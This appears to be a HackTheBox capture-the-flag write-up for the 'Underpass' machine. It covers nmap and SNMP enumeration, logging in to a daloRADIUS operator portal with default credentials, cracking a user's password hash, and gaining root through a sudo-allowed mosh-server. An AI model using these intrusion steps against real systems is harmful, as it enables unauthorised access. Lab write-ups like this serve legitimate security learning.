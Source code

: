 ```yaml
---
layout: post
title: "Underpass"
date: 2024-12-28
author: cotes
categories: [Writeup, HackTheBox]
tags: [HTB, Writeup, Security]
pin: true
math: true
mermaid: true
image:
  path: /assets/img/commons/hackthebox.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hackthebox Image
---
```



starting with nmap

```bash
# Nmap 7.94SVN scan initiated Sat Dec 21 20:11:10 2024 as: /usr/lib/nmap/nmap -sC -sV -p- -T4 -oN nmap 10.129.248.201
Warning: 10.129.248.201 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.129.248.201 (10.129.248.201)
Host is up (0.090s latency).
Not shown: 65420 closed tcp ports (reset), 113 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 48:b0:d2:c7:29:26:ae:3d:fb:b7:6b:0f:f5:4d:2a:ea (ECDSA)
|_  256 cb:61:64:b8:1b:1b:b5:ba:b8:45:86:c5:16:bb:e2:a2 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Dec 21 20:26:56 2024 -- 1 IP address (1 host up) scanned in 945.64 seconds
➜  underpass git:(main) ✗
```


just an apache server , trying to fuzz but no result .

I was clueless so I ran another scan against UDP ports

```bash
sudo nmap -sU -T4 -oN nmap_udp 10.129.79.195 -Pn
```

![[Pasted image 20241221235520.png]]

let's enumerate SNMP 


```bash
snmpwalk -v2c -c public 10.129.79.195
```

![[Pasted image 20241221232505.png]]


so we got domain and `daloradius` which is a CMS

![[Pasted image 20241221232613.png]]


I used this https://github.com/lirantal/daloradius/blob/master/  , to enumerate website 

so I found some files like http://underpass.htb/daloradius/Dockerfile


![[Pasted image 20241221232838.png]]

I tried the default creds against http://underpass.htb/daloradius/app/users/login.php but useless .

after some search in GitHub , another login portal was discovered 
http://underpass.htb/daloradius/app/operators/login.php

login with default creds 


we can find a list of users 

![[Pasted image 20241221233105.png]]


![[Pasted image 20241221233128.png]]

[crackstation](https://crackstation.net/) to crack the hash 


`underwaterfriends`

![[Pasted image 20241221233256.png]]



### root



```bash
sudo -l
```

![[Pasted image 20241221233338.png]]

when we `mosh-server` we got KEY and port

![[Pasted image 20241221233419.png]]


using `mosh-client` we can get root

```bash
 MOSH_KEY=S1bavDXgiegwtNo04fZYVQ  mosh-client  127.0.0.1 60001
```


![[Pasted image 20241221233613.png]]